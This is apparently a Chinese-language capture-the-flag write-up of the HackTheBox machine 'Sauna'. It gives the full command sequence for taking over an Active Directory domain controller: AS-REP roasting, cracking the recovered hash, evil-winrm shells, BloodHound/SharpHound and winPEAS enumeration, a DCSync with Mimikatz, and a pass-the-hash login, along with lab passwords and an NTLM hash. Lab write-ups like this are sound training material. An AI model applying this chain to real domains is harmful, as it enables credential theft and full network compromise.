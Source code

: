 ```yaml
---
description: Easy / 枚举 / AS-REP Roasting / DCsync
---
```


# ✔️ Sauna

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA sauna 10.129.77.184 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 发现开放目标系统开放了80端口，查看后并没有发现什么特别有用的信息，但是发现了很多用户名，先收集起来也许后续会有用：

<figure><img src="../../.gitbook/assets/2 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/3 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 对该80端口进行常规的隐藏文件/目录扫描，没什么收获：

```bash
gobuster dir -u http://10.129.77.184/ -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../../.gitbook/assets/5 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* dirsearch也没有什么收获：

<figure><img src="../../.gitbook/assets/6 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用多个工具尝试无密码登录SMB服务，倒是成功了，但是还是无收获：

```bash
smbclient -N -L 10.129.77.184
```

<figure><img src="../../.gitbook/assets/7 (9).png" alt=""><figcaption></figcaption></figure>

```bash
crackmapexec smb 10.129.77.184
```

<figure><img src="../../.gitbook/assets/8 (9).png" alt=""><figcaption></figcaption></figure>

* 使用ldapsearch针对目标的LDAP目录树进行遍历的域名查询，获取到：**DC=EGOTISTICAL-BANK,DC=LOCAL**

```bash
ldapsearch -x -H LDAP://10.129.95.180 -s base namingcontexts
```

<figure><img src="../../.gitbook/assets/9 (7).png" alt=""><figcaption></figcaption></figure>

* 再次进行递归查询，发现有用信息：**dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL**

```bash
ldapsearch -x -H LDAP://10.129.95.180 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' -s sub 
```

* 将收集到的所有用户名及其改写的变体制作成一个username.txt文件：

<figure><img src="../../.gitbook/assets/10 (7).png" alt=""><figcaption></figcaption></figure>

* 因为已经收集到一些专门针对目标系统的有效用户名，所以可以尝试使用kerbrute进行一下暴破，找到几个用户名：

```
./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL username.txt --dc 10.129.95.180
```

<figure><img src="../../.gitbook/assets/11 (6).png" alt=""><figcaption></figcaption></figure>

* 使用GetNPUsers.py从username.txt中找出易受攻击的用户hash:

```bash
./GetNPUsers.Py 'EGOTISTICAL-BANK.LOCAL/' -usersfile username.txt -format hashcat -outputfile hashes.aspro -dc-ip 10.129.95.180
```

<figure><img src="../../.gitbook/assets/12 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 从这个hash中得知是fsmith这个账户的，破解该hash后获得明文密码：**Thestrokes23**

<figure><img src="../../.gitbook/assets/13 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 使用evil-winrm和刚才得到的有效凭证，登录目标系统成功获得shell：

```bash
evil-winrm -i 10.129.95.180 -u fsmith -p Thestrokes23
```

<figure><img src="../../.gitbook/assets/16 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 因为systeminfo.exe程序在目标中被限制，所以无法获得信息。随后枚举域内用户账户，得到6个账户：

```bash
net user /domain
# 分别枚举这6个账户名，查看它们的组成员关系：
net user fsmith /domain
```

<figure><img src="../../.gitbook/assets/18 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/22 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 因为常规的手动枚举并没有什么其他有用信息，所以决定使用bloodhound对该机器的所有信息进行分析，此时继续使用evil-winrm的upload模块，上传sharphound.exe到目标机器中进行信息收集：

```bash
# evil-winrm：
upload /root/Documents/HTB-AD/sauna/tools/sharphound.exe
# 上传完成后直接运行即可，后续会生成一个zip文件：
.\sharphound.exe
```

<figure><img src="../../.gitbook/assets/25 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/26 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将这个压缩文件下载下来，直接拖入Bloodhound里就行了：

```bash
# evil-winrm:
download 20240713.............._BloodHound.zip
```

<figure><img src="../../.gitbook/assets/28 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在查看SVC\_LOANMGR@EGOTISTICAL-BANK.LOCAL这个账户时发现，该账户有权限访问目标域上的所有更改（GetChangesAll / GetChanges），这意味着我可以执行DCsync攻击：

<figure><img src="../../.gitbook/assets/29 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 接下来继续使用evil-winrm上传winPEAS到目标中进行再次信息收集：

```bash
upload upload /root/Documents/HTB-AD/sauna/tools/winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/30 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 输出信息中包含了SVC\_LOANMGR账户的用户名和密码：

<figure><img src="../../.gitbook/assets/31 (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 利用svc\_loanmanager这个账户的凭证，用evil-winrm登录到目标中：

```bash
evil-winrm -i 10.129.82.224 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```

<figure><img src="../../.gitbook/assets/32 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 上传mimikatz到目标中，然后用DCsync攻击转储内置域管理员账户哈希：

```bash
# 上传：
upload Invoke-Mimikatz.ps1
# 使用mimikatz：
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:Egotistical-bank.local /user:Administrator"'
```

<figure><img src="../../.gitbook/assets/33 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/34 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/35 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获得Administrator账户及其hash值：

<figure><img src="../../.gitbook/assets/36 (1).png" alt=""><figcaption></figcaption></figure>

* 利用hash登录，获得Administrator权限的shell，至此已完全控制DC，get flag!

```bash
evil-winrm -i 10.129.82.224 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

<figure><img src="../../.gitbook/assets/37 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/38 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例机器中途重置后IP有变化，但其利用过程无影响。
{% endhint %}
